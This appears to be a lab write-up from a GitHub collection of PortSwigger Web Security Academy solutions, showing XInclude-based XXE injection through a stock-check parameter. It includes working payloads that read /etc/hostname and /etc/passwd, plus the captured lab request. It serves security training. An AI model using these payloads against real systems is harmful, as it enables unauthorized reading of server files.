 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/e00f020e-d056-42eb-9590-14b63c467f86)

## Overview :

 Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document. An example of this occurs when client-submitted data is placed into a back-end SOAP request, which is then processed by the backend SOAP service.

In this situation, y**ou cannot carry out a classic XXE attack, because you don't control the entire XML document and so cannot define or modify a DOCTYPE element**. However, you might be able to use XInclude.

**XInclude is a part of the XML specification that allows an XML document to be built from sub-documents**. You can place an XInclude attack within any data value in an XML document, so the _attack can be performed in situations where you only control a single item of data that is placed into a server-side XML document_.

To test for XInclude attacks, insert the following payload into the data entry point and see if the file that you requested gets sent back in the response body:

```xml
<example xmlns:xi="http://www.w3.org/2001/XInclude">
 <xi:include parse="text" href="file:///etc/hostname"/>
</example>
```
> This piece of XML code does two things. First, it references the http://www.w3.org/2001/XInclude namespace so that we can use the `xi:include element`. Next, it uses that element to parse and
> include the `/etc/hostname` file in the XML document


## Solution :

Clicking on checkstock feature sends the following POST request.

```xml
POST /product/stock HTTP/2
Host: 0ad200c1031cd2e186b555c2000900e6.web-security-academy.net
Cookie: session=pH4FMMey7Y6ZHgKDWygdTWdJ3tsg1jGg
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0ad200c1031cd2e186b555c2000900e6.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: https://0ad200c1031cd2e186b555c2000900e6.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

productId=1&storeId=1
```

Here we can't see any XML data being sent to the server but the lab description says that _the checkstock feature embeds the user input inside a server-side XML document that is subsequently parsed._

Since we don't control the entire XML document we can't define a DTD. In these kind of situations, we can use the  **XInclude** tag.

> Reference - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xinclude-attacks

**Payload -**

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
So we enter this payload in the `productID` parameter to retreive the `/etc/passwd` file.

```xml
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

We have now retreived the passwd file.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/70de11c4-d54e-44bc-862c-28e1d32d2da8)


The lab is solved .

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/20224687-bca9-4087-b24b-6ca41c85bf84)



